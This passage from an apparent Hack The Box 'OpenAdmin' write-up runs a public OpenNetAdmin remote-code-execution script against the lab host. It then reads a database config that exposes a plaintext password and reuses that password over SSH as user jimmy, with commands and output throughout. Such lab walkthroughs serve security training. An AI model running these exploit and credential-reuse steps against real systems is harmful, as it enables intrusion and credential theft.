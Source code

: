 At first we need to convert the linebreaks to unix and then we simply execute the script to the vulnerable url.
```bash
kali@kali:~$ dos2unix 47691
dos2unix: converting file 47691.sh to Unix format...

kali@kali:~$ ./47691.sh http://openadmin.htb/ona/
$ whoami
www-data
$ ls /home
jimmy
joanna
$ ls -la local/config
total 16
drwxrwxr-x 2 www-data www-data 4096 Nov 21 16:51 .
drwxrwxr-x 5 www-data www-data 4096 Jan  3  2018 ..
-rw-r--r-- 1 www-data www-data  426 Nov 21 16:51 database_settings.inc.php
-rw-rw-r-- 1 www-data www-data 1201 Jan  3  2018 motd.txt.example
-rw-r--r-- 1 www-data www-data    0 Nov 21 16:28 run_installer
```

Hurray, a simple shell, but a shell. 

```bash
$ cat local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

A lot of users use their password more than one time. So we have two users jimmy and joana and one password.
The first step is to simply try a combination on the ssh server.

```bash
kali@kali:~$ ssh jimmy@openadmin.htb
jimmy@openadmin.htb\'s password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat May  2 13:00:36 UTC 2020

  System load:  0.0               Processes:             114
  Usage of /:   49.5% of 7.81GB   Users logged in:       1
  Memory usage: 20%               IP address for ens160: 10.10.10.171
```